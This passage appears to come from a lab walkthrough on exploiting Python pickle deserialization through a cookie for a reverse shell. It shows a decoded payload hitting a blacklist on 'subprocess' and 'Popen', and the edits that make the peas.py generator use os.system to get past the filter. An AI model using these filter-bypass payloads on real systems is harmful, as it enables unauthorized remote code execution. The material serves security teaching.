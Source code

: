 Unfortunately, starting a Netcat listener and updating the cookie's value does not result in a reverse shell as expected, but rather an `Internal Server Error`.

![](SkEfFiGlmTWU.png)

Let's investigate why this is. If we decode the payload, we can see the strings `subprocess` and `Popen`, both of which we know are blocked by the blacklist filter in `util/auth.py`:

```shell
cat payload_pick | base64 -d

j
subprocessPopenpython-cX8exec(ch...SNIP...(41))R.

```

Taking a look at the source code for `peas.py` we see that `subprocess.Popen` is indeed in use here.

```python
...
class Gen(object):
    def __init__(self, payload):
        self.payload = payload

    def __reduce__(self):
        return subprocess.Popen, (self.payload,)
...

```

At this point, we see we would need to make a couple of modifications to this tool for it to actually work (in this scenario). Alternatively, we could create a custom payload using our knowledge, but for the sake of this example, I will walk through how to get `peas.py` working. Inside `peas.py` you need to make the following changes:

- Swap `subprocess.Popen` out for `os.system`
- Modify the argument generation as `os.system` accepts a string instead of an array like `subproces.Popen`

It should look like this:

```python
#import subprocess
import os
...
        #return subprocess.Popen, (self.payload,)
        return (os.system, (self.payload,))
...
        #self.payload = pickle.dumps(Gen(tuple(self.case().split(" "))))
        self.payload = pickle.dumps(Gen(self.case()))
...
            #cmd = self.prefix+"python -c exec({})".format(self.chr_encode("__import__('os').system"
            cmd = self.prefix+"python -c 'exec({})'".format(self.chr_encode("__import__('os').system"
...

```
